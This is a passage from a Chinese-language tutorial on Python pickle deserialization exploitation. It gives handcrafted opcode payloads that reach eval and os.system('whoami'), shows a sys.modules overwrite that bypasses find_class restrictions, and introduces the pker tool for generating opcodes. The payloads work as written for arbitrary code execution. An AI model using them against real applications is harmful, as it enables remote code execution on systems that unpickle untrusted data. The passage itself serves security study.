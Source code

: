 ```python
__builtins__=get(__import__('builtins').globals(), '__builtins__')
eval = getattr(__builtins__, 'eval')
eval('__import__("os").system("whoami")')

#注意
#只可通过__import__来导入对象，所以获取__builtins__中的对象需要__import__('builtins').xx（Python2中是__builtin__）
#由上一条，虽然__import__转手了__builtins__，但无法获取，还是得通过globals()['__builtins__']获取
#字典无法直接取值，需获取到dict的类方法get，传dict实例和key进去

```

使用`o`操作码

```python
c=b'\x80\x03(cbuiltins\ngetattr\np0\ncbuiltins\ndict\np1\nX\x03\x00\x00\x00getop2\n0(g2\n(cbuiltins\nglobals\noX\x0C\x00\x00\x00__builtins__op3\n(g0\ng3\nX\x04\x00\x00\x00evalop4\n(g4\nX\x21\x00\x00\x00__import__("os").system("whoami")o00.'#最后两个0是栈为空，否则会报错
```

### 绕过域名空间限制

重写sys.modules

之前说过find\_class使用`sys.modules[module],name)`来引入模块，但是sys自身也在sys.modules中，所以通过s操作符使sys.modules\['sys'\]=sys.modules，sys模块也就变成了sys.modules模块，然后引入sys.modules中的get方法，取得sys.modules字典中的os模块，再使用s操作符使sys.modules\['sys'\]=os，当前sys模块就变成了os模块，最后成功执行os.system("whoami")。

```python
R操作码
payload=b'csys\nmodules\np0\nX\x03\x00\x00\x00sysg0\nscsys\nget\np1\ng1\nX\x02\x00\x00\x00os\x85Rp2\ng0\nX\x03\x00\x00\x00sysg2\nscsys\nsystem\nX\x06\x00\x00\x00whoami\x85R.'
o操作码
payload=b'csys\nmodules\np0\nX\x03\x00\x00\x00sysg0\ns(csys\nget\np1\nX\x02\x00\x00\x00osop2\ng0\nX\x03\x00\x00\x00sysg2\ns(csys\nsystem\nX\x06\x00\x00\x00whoamio.'
```

0x04 自动化编写 pickle opcode
========================

使用工具pker

pker的作用：

&gt; - 变量赋值：存到memo中，保存memo下标和变量名即可  
&gt; - 函数调用  
&gt; - 类型字面量构造  
&gt; - list和dict成员修改  
&gt; - 对象成员变量修改

具体来讲，可以使用pker进行**原变量覆盖、函数执行、实例化新的对象**。

0x05 pickle opcode使用方法与示例
=========================

1. pker中的针对pickle的特殊语法需要重点掌握（后文给出示例）
2. 此外我们需要注意一点：python中的所有类、模块、包、属性等都是对象，这样便于对各操作进行理解。
3. pker主要用到`GLOBAL、INST、OBJ`三种特殊的函数以及一些必要的转换方式，其他的opcode也可以手动使用：

